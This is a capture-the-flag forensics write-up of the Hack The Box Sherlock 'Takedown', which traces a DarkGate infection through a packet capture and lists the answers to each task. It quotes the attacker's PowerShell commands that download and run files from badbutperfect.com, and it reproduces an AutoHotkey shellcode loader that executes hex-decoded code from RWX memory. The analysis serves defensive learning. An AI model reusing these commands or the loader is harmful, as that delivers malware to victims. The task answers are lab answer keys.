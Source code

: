 ```yaml
---
title: HTBS Takedown

---
```


# Hack The Box Sherlock: Takedown

## Description
> We've identified an unusual pattern in our network activity, indicating a possible security breach. Our team suspects an unauthorized intrusion into our systems, potentially compromising sensitive data. Your task is to investigate this incident.
## Initial findings
**Protocol hierarchy:**
![image](https://hackmd.io/_uploads/SJcnhcraJg.png)
Key points:
* 100% UDP packets are DNS packets, resolve to 2 domains:
```bash
$ tshark -r Takedown.pcap -Y "dns" -T fields -e dns.qry.name | sort -u
badbutperfect.com
escuelademarina.com
```
* Overview of NetBIOS Session Service packets:
![bilde](https://hackmd.io/_uploads/HkhLMhDp1g.png)
![bilde](https://hackmd.io/_uploads/ryAI9nDpJg.png)
-> Initial connection to escuelademarina.com
* HTTP GET requests:
![bilde](https://hackmd.io/_uploads/ByRTXnPpyl.png)

**Conversations**:
![image](https://hackmd.io/_uploads/rJdA2qS6Jx.png)
-> Victim IP: 10.3.19.101
* 10.3.19.101 - 10.3.19.1:
![bilde](https://hackmd.io/_uploads/rJJ4LnDTJx.png)
-> 10.3.19.1  is a DNS resolver:
escuelademarina.com resolved to 165.22.16.55
badbutperfect.com resolved to 103.124.105.78

**Exportable objects**
![bilde](https://hackmd.io/_uploads/ByiUzpva1g.png)

## Scenario overview
The victim machine (10.3.19.101) accessed 165.22.16.55, which resolves to escuelademarina.com — a domain controlled by the threat actor:
![bilde](https://hackmd.io/_uploads/B1c102Ppyl.png)
The exact method by which the attacker compromised the victim to access their domain remains unknown.
Then a connection to attacker's IP is established:
![bilde](https://hackmd.io/_uploads/HyT4kpw6ye.png)
Following that is the establishment of SMB connectionm. The attacker attempted to authenticate (packet 13) from victim's machine to access the shared resource on `\\escuelademarina.com\cloud` :
![bilde](https://hackmd.io/_uploads/H1uXgpDpke.png)
and request the first file: 
![bilde](https://hackmd.io/_uploads/rkj1MTwT1g.png)
From the end part of the stream containing that request, the VBS script's role in this scenario seems to be initiating connection to `badbutperfect.com`, the domain which will be used to download malwares:
![bilde](https://hackmd.io/_uploads/ByT9gfuT1l.png)

## Sherlock tasks
**Task 1: From what domain is the VBS script downloaded?**
-> escuelademarina.com

**Task 2: What was the IP address associated with the domain in question #1 used for this attack?**
-> 165.22.16.55

**Task 3: What is the filename of the VBS script used for initial access?**
-> AZURE_DOC_OPEN.vbs

**Task 4: What was the URL used to get a PowerShell script?**
Here we will inspect the HTTP GET requests to look up a PowerShell script:
![bilde](https://hackmd.io/_uploads/HJrE5Twa1x.png)
-> badbutperfect.com/nrwncpwo
Analysis of the script:
1. Create a folder and move to it:
```powershell 
ni 'C:/rimz' -Type Directory -Force
cd 'C:/rimz'
```
* ni (short for New-Item) creates a new directory at C:/rimz
2. Download 3 files from `badbutperfect.com`:
```powershell
Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe'
Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk'
Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt'
```
3. Execute the malware:
```powershell
start 'AutoHotkey.exe' -a 'script.ahk'
```
4. Hide the folder (C:/rimz):
```powershell 
attrib +h 'C:/rimz'
```

**Task 5: What likely legit binary was downloaded to the victim machine?**
From the PowerShell script above and a little searching, "AutoHotKey.exe" seems to be the legit binary.
-> AutoHotKey.exe

**Task 6: From what URL was the malware used with the binary from question #5 downloaded?**
From the PowerShell script: ![bilde](https://hackmd.io/_uploads/r1ONhTvpke.png) -> the malware used with the binary "AutoHotKey.exe" is `script.ahk`, trace back: ![bilde](https://hackmd.io/_uploads/HyxYKhTw6ke.png)
-> http://badbutperfect.com/jvtobaqj

**Task 7: What filename was the malware from question #6 given on disk?**
-> script.ahk

**Task 8: What is the TLSH of the malware?**
For this task, just uploading `http://badbutperfect.com/jvtobaqj` to VirusTotal didn't work. So we need to export the file then submit it to VirusTotal.
![bilde](https://hackmd.io/_uploads/HkZCFAw61x.png)
-> T15E430A36DBC5202AD8E3074270096562FE7DC0215B4B32659C9EF16835CF6FF9B6A1B8

**Task 9: What is the name given to this malware? Use the name used by McAfee, Ikarus, and alejandro.sanchez.**
On VirusTotal -> COMMUNITY: 
![bilde](https://hackmd.io/_uploads/SkNVc0vTyg.png)
-> DarkGate

**Task 10: What is the user-agent string of the infected machine?**
Look up HTTP Response:
![bilde](https://hackmd.io/_uploads/ry3wxgOpkg.png)
-> Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36

**Task 11: To what IP does the RAT from the previous question connect?**
"The RAT (Remote Access Trojan) from the previous question" = http://badbutperfect.com/jvtobaqj 
![bilde](https://hackmd.io/_uploads/SkW4-xua1l.png)
-> 103.124.105.78

## Malware analysis
The content of `script.ahk` is:
```clike
MEM_RESERVE := 0x2000
PAGE_EXECUTE_READWRITE := 0x40
archivo := A_ScriptDir . "\\test.txt"
FileRead, contenidoHex, %archivo%
size := 468705
lpAddress := DllCall("VirtualAlloc", "Ptr", 0, "UInt", size, "UInt", MEM_COMMIT | MEM_RESERVE, "UInt", PAGE_EXECUTE_READWRITE)
Loop, % size {
hexByte := "0x" . SubStr(contenidoHex, 2 * A_Index - 1, 2)
NumPut(hexByte, lpAddress + (A_Index - 1), "Char")
}
DllCall(lpAddress)
```
This malware was designed to decode the hex-encoded content of `http://badbutperfect.com/ozkpfzju (test.txt)`. The decoded content of test.txt is a program to delete drivers: 
![bilde](https://hackmd.io/_uploads/ByIqyzu61e.png)

#
> Written by 9r3y
##





